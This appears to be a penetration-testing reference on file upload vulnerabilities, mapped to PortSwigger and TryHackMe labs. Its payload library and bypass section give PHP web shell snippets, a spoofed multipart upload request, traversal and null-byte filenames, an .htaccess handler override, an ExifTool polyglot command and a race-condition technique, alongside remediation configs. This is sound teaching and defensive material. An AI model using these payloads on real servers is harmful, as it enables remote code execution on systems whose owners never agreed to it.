

# File Upload Vulnerabilities — HAXMED Intelligence Reference

[]()
[]()
[]()
[]()

---

## 1. Overview

**File Upload Vulnerabilities** occur when a web application allows users to upload files to its filesystem without adequately validating attributes such as the filename, file extension, MIME type, or file contents, or without enforcing non-executable storage permissions. When an attacker successfully uploads a server-executable script (such as a `.php`, `.jsp`, or `.aspx` file) into a directory mapped to the web root, requesting the file executes the code, resulting in Remote Code Execution (RCE).

- **Primary Classification:** OWASP Top 10:2021 — #3 **A03:2021-Injection** and #4 **A04:2021-Insecure Design**; CWE-434 (Unrestricted Upload of File with Dangerous Type).
- **Common Aliases:** Arbitrary File Upload, Web Shell Upload, Malicious Attachment Upload, Polyglot Upload RCE.
- **CWE Mappings:**
  - `CWE-434`: Unrestricted Upload of File with Dangerous Type
  - `CWE-436`: Interpretation Conflict
  - `CWE-367`: Time-of-check Time-of-use (TOCTOU) Race Condition
- **Security Impact:** Instant Remote Code Execution, defacement, internal pivot, file system tampering, and client-side attacks (Stored XSS via SVG/HTML uploads).

---

## 2. Root Cause and Attack Surface

### Root Cause
1. **Client-Side Validation Only:** Validating file extensions exclusively via HTML form attributes (`accept="image/*"`) or client-side JavaScript.
2. **Trusting Client-Supplied Content-Type:** Relying on the `Content-Type: image/jpeg` header sent in the multipart boundary, which is completely controlled by the client.
3. **Storage in Web-Accessible, Executable Directories:** Storing uploaded files directly in a folder configured to execute scripts (`/var/www/html/avatars/`) rather than an isolated object store (AWS S3) or a non-executable directory.
4. **Flawed Extension Blacklisting:** Blocking `.php` or `.asp` while omitting alternative executable extensions (`.phtml`, `.php5`, `.phar`, `.pht`, `.htaccess`, `.jspx`, `.cer`).
5. **Time-of-Check Time-of-Use (TOCTOU) Race Conditions:** Moving the uploaded file into a temporary public directory *before* validating or antivirus scanning, creating a window for execution.

### Attack Surface Entry Points
- Profile avatar and resume upload forms.
- Media galleries and photo albums.
- CSV/XML data import utilities.
- Rich text editors (TinyMCE, CKEditor file upload attachments).

---

## 3. Detection and Reconnaissance

### Validation Layer Discovery
When analyzing an upload endpoint, identify which validation controls are enforced:
1. **Extension Check:** Does changing `.jpg` to `.php` trigger a block?
2. **MIME / Content-Type Check:** Does submitting `.php` with `Content-Type: image/jpeg` pass?
3. **Magic Bytes (File Signature):** Does the server inspect binary headers (e.g., `GIF89a`, `\xFF\xD8\xFF` for JPEG)?
4. **Server Re-encoding:** Does the server resize or strip metadata using libraries like GD, ImageMagick, or Pillow?

### Magic Bytes Matrix for Common File Formats

| File Format | Header Signature (Magic Bytes) | ASCII Representation |
|---|---|---|
| **GIF** | `47 49 46 38 39 61` | `GIF89a` |
| **JPEG** | `FF D8 FF E0` or `FF D8 FF E1` | `ÿØÿà` |
| **PNG** | `89 50 4E 47 0D 0A 1A 0A` | `.PNG....` |
| **PDF** | `25 50 44 46 2D` | `%PDF-` |
| **ZIP / JAR** | `50 4B 03 04` | `PK..` |

---

## 4. Testing Methodology



---

## 5. Payload Library

> [!NOTE]
> All payloads below are minimal, benign diagnostic proofs (`phpinfo()` or `whoami`) designed strictly for authorized lab validation.

### UPLOAD-PL-01: Standard Diagnostic PHP Web Shell
```php
<?php echo "HAXMED-VALIDATION-OK: " . phpversion(); ?>
```
- **Purpose:** Test unvalidated file upload execution.
- **Classification:** `[CONFIRMED]`

### UPLOAD-PL-02: Content-Type Spoofing Header
```http
POST /upload HTTP/1.1
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: image/jpeg

<?php echo "MIME-BYPASS-CONFIRMED"; ?>
```
- **Purpose:** Test whether file type validation is naively bound to the client-controlled MIME header.
- **Classification:** `[CONFIRMED]`

### UPLOAD-PL-03: Path Traversal Filename
```http
Content-Disposition: form-data; name="avatar"; filename="..%2fshell.php"
```
- **Purpose:** Write the uploaded shell outside a protected uploads directory and into an executable parent folder.
- **Classification:** `[CONFIRMED]`

### UPLOAD-PL-04: Apache `.htaccess` Configuration Override
```apache
# Payload file named: .htaccess
AddType application/x-httpd-php .l33t
```
- **Payload 2 (Execution):** Upload `shell.l33t` containing PHP code.
- **Purpose:** Reconfigure Apache directory handler to execute custom arbitrary extensions.
- **Classification:** `[CONFIRMED]`

### UPLOAD-PL-05: Obfuscated Null Byte Filename (Legacy)
- **Filename:** `shell.php%00.jpg` or `shell.php\x00.png`
- **Purpose:** Satisfy regex checks for `.jpg` while C filesystem APIs truncate at the null byte.
- **Classification:** `[VERSION-DEPENDENT]`

### UPLOAD-PL-06: GIF89a Magic Byte Prepending (Polyglot)
```text
GIF89a<?php phpinfo(); ?>
```
- **Purpose:** Satisfy binary signature checks when applications inspect the first 6 bytes of the file.
- **Classification:** `[CONFIRMED]`

---

## 6. Bypass Techniques & Specialized Attacks

### 1. Stripping Extensions via Single-Pass Blacklists
When an application strips `.php` from filenames once:
- **Technique:** `shell.p.phphp`
- When the inner `.php` is stripped, the outer characters coalesce into `shell.php`.

### 2. Polyglot JPEG Generation via ExifTool
When an application uses image processing libraries to validate and resize images, raw text is rejected:
- **Technique:** Inject PHP payload into the JPEG `Comment` metadata field using ExifTool:
  ```bash
  exiftool -Comment="<?php phpinfo(); ?>" image.jpg -o polyglot.php
  ```
- The file remains a valid JPEG according to image validation libraries, but executes as PHP when served by the web server.

### 3. TOCTOU Upload Race Conditions
- **Mechanism:** Applications often save the uploaded file to `/var/www/html/tmp/filename.php`, run a virus scan or validation check, and delete it if invalid.
- **Technique:** Use Turbo Intruder or multithreaded Python scripts to send hundreds of concurrent GET requests to `/tmp/filename.php` while repeatedly uploading, executing code before the file is deleted.

---

## 7. Exploit and PoC References

- **WordPress Plugin Arbitrary File Uploads (Multiple CVEs):** Unauthenticated file upload flaws in contact form and gallery plugins allowing immediate web shell deployment.
- **Apache Struts REST Plugin RCE (CVE-2017-5638):** Malicious multipart boundary headers triggering arbitrary code execution.
- **Apache Flink Arbitrary File Upload (CVE-2020-17519):** REST API allowing attackers to write uploaded files to arbitrary locations on the filesystem.

---

## 8. Tools and Automation

1. **ExifTool:**
   - **Purpose:** Inspect and inject payloads into metadata attributes of images (JPEG, PNG, TIFF).
2. **Turbo Intruder (Burp Suite Extension):**
   - **Purpose:** High-speed HTTP request pipelining specifically designed for exploiting microsecond TOCTOU race conditions.
3. **Fuxploider:**
   - **Repository:** `https://github.com/almandin/fuxploider`
   - **Purpose:** Automated file upload vulnerability scanner testing diverse extension and MIME bypass variations.

---

## 9. Troubleshooting and False Positives

- **Static Direct Download (Octet-Stream):** The file uploads successfully, but visiting its URL triggers a file download rather than server execution. This indicates the directory has disabled script execution handlers (e.g., `php_flag engine off`).
- **File Renaming (UUIDs / Hashes):** The server renames uploaded files to random hashes (e.g., `d3b07384.png`). Look for directory disclosures, API responses returning the generated filename, or examine cache logs.

---

## 10. Remediation and Retesting

### Comprehensive Defense-in-Depth Architecture:
1. **Strict File Extension Allowlisting:** Only permit predetermined non-executable extensions (`jpg`, `jpeg`, `png`, `pdf`).
2. **Randomize Filenames Server-Side:** Never retain user-supplied filenames. Generate a server-side UUID (`bin2hex(random_bytes(16)) . '.jpg'`).
3. **Store Uploads Outside the Web Root:** Store files in a separate directory outside `/var/www/html/` or in a dedicated cloud storage bucket (AWS S3, Google Cloud Storage, Azure Blob).
4. **Disable Execution Handlers in Web Server Configuration:**
   ```apache
   # Apache Configuration for Upload Directory
   <Directory "/var/www/html/uploads">
       php_flag engine off
       Options -ExecCGI
       RemoveHandler .php .phtml .php5 .phar
   </Directory>
   ```
   ```nginx
   # Nginx Configuration for Upload Directory
   location ^~ /uploads/ {
       types { }
       default_type application/octet-stream;
       location ~ \.(php|phtml|phar)$ {
           deny all;
       }
   }
   ```

---

## 11. PortSwigger / TryHackMe / OWASP Lab Mapping

| Lab Name | Platform | Bypass Mechanism | Directory Reference |
|---|---|---|---|
| Remote Code Execution via Web Shell Upload | PortSwigger | Direct Unrestricted Upload | [Lab-01](./EN/Lab-01-Remote-code-execution-via-web-shell-upload.md) |
| Web Shell Upload via Content-Type Restriction | PortSwigger | MIME Header Spoofing | [Lab-02](./EN/Lab-02-Web-shell-upload-via-Content-Type-restriction-bypass.md) |
| Web Shell Upload via Path Traversal | PortSwigger | Traversal Filename (`..%2f`) | [Lab-03](./EN/Lab-03-Web-shell-upload-via-path-traversal.md) |
| Web Shell Upload via Extension Blacklist | PortSwigger | Apache `.htaccess` Configuration Override | [Lab-04](./EN/Lab-04-Web-shell-upload-via-extension-blacklist-bypass.md) |
| Web Shell Upload via Obfuscated File Extension | PortSwigger | Null Byte Truncation (`%00`) | [Lab-05](./EN/Lab-05-Web-shell-upload-via-obfuscated-file-extension.md) |
| RCE via Polyglot Web Shell Upload | PortSwigger | ExifTool JPEG Polyglot Injection | [Lab-06](./EN/Lab-06-Remote-code-execution-via-polyglot-web-shell-upload.md) |
| Web Shell Upload via Race Condition | PortSwigger | Turbo Intruder TOCTOU Exploitation | [Lab-07](./EN/Lab-07-Web-shell-upload-via-race-condition.md) |
| Upload Vulnerabilities Room | TryHackMe | Client-Side JS, Magic Bytes & WAFs | [THM Guide](./EN/THM-Upload-Vulnerabilities.md) |

---

## 12. Reporting Guidance

- **Vulnerability Title:** Unrestricted File Upload Leading to Remote Code Execution (RCE).
- **Severity Rating:** Critical (CVSS v3.1 Base Score: 9.8).
  - *Vector Example:* `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`
- **Remediation Recommendation:** Enforce an allowlist of permitted file extensions, strip execution privileges from upload storage directories, generate randomized filenames server-side, and validate binary magic bytes.

---

## 13. References

- **PortSwigger File Upload Academy:** https://portswigger.net/web-security/file-upload
- **OWASP File Upload Cheat Sheet:** https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
- **CWE-434 (Unrestricted File Upload):** https://cwe.mitre.org/data/definitions/434.html

---

## 14. Research Coverage and Validation Status

| Metric | Status / Count |
|---|---|
| Total Lab References Verified | 8 (7 PortSwigger + 1 TryHackMe) |
| Verification Status | `[CONFIRMED]` across all documented lab targets |
| Limitations | Race condition execution depends on server IO latency and pipeline architecture. |
